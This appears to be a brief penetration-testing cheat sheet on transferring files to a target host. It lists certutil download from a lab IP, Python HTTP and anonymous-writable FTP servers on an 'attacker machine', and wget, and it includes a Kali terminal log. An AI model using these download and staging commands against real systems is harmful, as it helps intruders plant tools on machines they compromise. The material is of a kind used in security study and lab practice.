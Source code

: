 #certutil #pyftpdlib #FTP #Bitsadmin #SimpleHTTPServer #wget 
1. Powershell for Windows

```powershell
certutil.exe --urlcache -f http://10.10.10.10/file.txt file.txt
```

2. Open HTTP server to share files on directory

```shell
python3 -m http.server --bind [your_ip] [port]
```

3. Browser
	- Navigate directly to file

4. FTP
	- from Linux
	`python -m pyftpdlib 21 <attacker machine>`
	`python -m pyftpdlib -p 21 --write`
```
┌──(root㉿kali)-[~/Downloads]
└─# python3 -m pyftpdlib -p 21 --write       
/usr/lib/python3/dist-packages/pyftpdlib/authorizers.py:108: RuntimeWarning: write permissions assigned to anonymous user.
  self._check_permissions(username, perm)
[I 2024-10-07 20:22:14] concurrency model: async
[I 2024-10-07 20:22:14] masquerade (NAT) address: None
[I 2024-10-07 20:22:14] passive ports: None
[I 2024-10-07 20:22:14] >>> starting FTP server on 0.0.0.0:21, pid=659525 <<<
```
- from windows
	`ftp <attacker ip>`
	- `anonymous:anonymous`

5. Linux

	`wget`